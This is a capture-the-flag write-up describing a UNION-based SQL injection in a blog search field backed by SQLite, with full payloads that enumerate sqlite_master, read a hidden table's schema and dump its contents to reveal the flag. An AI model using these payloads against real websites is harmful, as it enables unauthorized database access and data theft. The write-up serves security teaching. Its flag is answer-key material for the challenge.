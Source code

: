 # Challenge `Wow, it can't be more juicy than this!` writeup

- Vulnerability: SQL injection
- Where: In the post search field
- Impact: It allows to fetch content from other tables

## Finding the vulnerability / Steps to reproduce

1. After sending a string which throws an SQL error, the vulnerable query was then displayed: `SELECT id, title, content FROM blog_post WHERE title LIKE '%{%s}%' OR content LIKE '%{%s}%'`, where `{%s}` are input fields.

2. Since the name of the table containing the hidden post is unknown, we must first find it. In a regular situation, a query such as `SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'` would show us the content. However, in this case, we need to make a union of this query with the initial one, so the final injection payload becomes `' UNION SELECT 1, group_concat(tbl_name), '' FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- `. With this input, a new post shows up containg the secret table name: `secret_blog_post`.

3. Although we could assume that the columns of the table would match those of the `blog_post` table, we could send the payload `' UNION SELECT 1, sql, '' FROM sqlite_master WHERE type != 'meta' AND sql NOT NULL AND name = 'secret_blog_post' -- `, a modification of `SELECT sql FROM sqlite_master WHERE type != 'meta' AND sql NOT NULL AND name = 'secret_blog_post'`, to get their names.

4. Finally, to get the post, we just need to make a union of the initial query with a query selecting all posts in the `secret_blog_post` table: `' UNION SELECT id, title, content FROM secret_blog_post -- `.

5. A new post then shows up, containing the flag: `SSof{Never_understimate_the_power_of_UNION}`